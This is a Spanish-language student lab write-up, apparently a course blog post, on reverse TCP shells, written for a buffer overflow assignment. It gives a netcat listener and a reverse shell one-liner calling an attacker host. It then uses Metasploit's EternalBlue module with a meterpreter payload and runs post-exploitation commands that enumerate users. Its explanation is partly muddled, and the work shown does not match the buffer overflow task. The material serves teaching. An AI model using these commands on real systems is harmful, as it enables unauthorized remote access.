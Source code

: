 ```yaml
---
title: Tarea Buffer Overflow
date: 2024-11-04 00:00:00 -05:00
categories: [buffer overflow, jmp, stack pointer]
tags: [rhosts, sam, system]  # TAG names should always be lowercase
---
```

# Tarea.

Requerimientos
El objetivo principal de esta tarea consiste en revisar si cada una de esas direcciones restantes es vulnerable y permite realizar el buffer overflow que, por consecuencia, permita ejecutar el exploit y obtener una shell por conexión tcp reversa.

Como segundo objetivo, el alumno debe de explicar en su procedimiento ¿qué es una conexión tcp reversa? Utilizar un gráfico relacionado a su setup de laboratorio (VM Kali vs VM Windows, VM Kali vs Host Windows) y desarrollar la explicación correspondiente.

Una vez que obtiene la conexión tcp reversa (suficiente con utilizar una de las direcciones de retorno que permite una exitosa ejecución del exploit), investigar los permisos de la shell (es decir, del usuario que ejecuta aquella shell).

#### Desarrollo

### Conexion tcp reversa
Una conexión TCP reserva es una técnica utilizada para establecer una comunicación segura y controlada entre dos dispositivos a través de Internet o una red local. En este escenario, una máquina (generalmente una víctima) se conecta de manera controlada a otra máquina (usualmente un atacante o servidor de control) para crear un canal de comunicación.

### Ejemplo de Conexión TCP Reserva
Imaginemos un escenario en el que un analista de seguridad necesita acceder remotamente a un servidor ubicado detrás de un firewall que bloquea las conexiones entrantes:

#### 1. Máquina Atacante (Servidor de Control): 
Configura un servidor para escuchar en un puerto específico (por ejemplo, puerto 4444).

````bash
nc -lvp 4444
````
#### 2. Máquina Víctima (Cliente):
 Inicia una conexión hacia el servidor de control usando una herramienta como Netcat.

````bash
nc [IP del servidor de control] 4444 -e /bin/bash
````
Una vez establecida la conexión, la máquina atacante tiene acceso remoto al shell de la máquina víctima. Esta técnica es comúnmente utilizada en pruebas de penetración y ataques para sortear restricciones de red.

#### Referencias: 

<a href="https://www.hackingarticles.in/reverse-tcp-shells/?form=MG0AV3">Reverse TCP Shells in Penetration Testing</a>
<a href="https://pentestlab.blog/understanding-reverse-tcp-connections/?form=MG0AV3">Understanding Reverse TCP Connections</a>

````bash
use exploit/windows/smb/ms17_010_eternalblue
````

![f5](/assets/imagen/f5.png)

````bash
set payload windows/meterpreter/reverse_tcp
````
![f51](/assets/imagen/f51.png)

Se configura la dirección IP y el puerto de la máquina atacante:

![f52](/assets/imagen/f52.png)

Cuando el exploit se ejecuta con éxito, la máquina objetivo se conectará a la máquina del atacante en el puerto especificado (en este caso, el puerto 4444). La máquina del atacante estará a la escucha en ese puerto y, si todo está configurado correctamente, se establecerá una sesión de Meterpreter.

Una vez que se obtiene la conexión de retorno TCP (utilizando cualquiera de las direcciones de retorno que permiten la ejecución exitosa del exploit), se puede investigar los permisos de la shell (es decir, los permisos del usuario que ejecuta esa shell).

Para obtener información sobre el sistema, se puede utilizar el comando "sysinfo" para obtener una visión general del sistema.

En resumen, el texto describe el flujo de trabajo después de que un exploit se ejecuta con éxito, donde se establece una conexión de retorno y se puede recopilar información sobre el sistema objetivo.

![f53](/assets/imagen/f53.png)

````bash
meterpreter > sysinfo
````

Usamos el comando getuid para obtener el ID del usuario actual:

````bash
meterpreter > getuid
````

Usamos el comando enum_users para listar todos los usuarios del sistema:
````bash
meterpreter > enum_users
````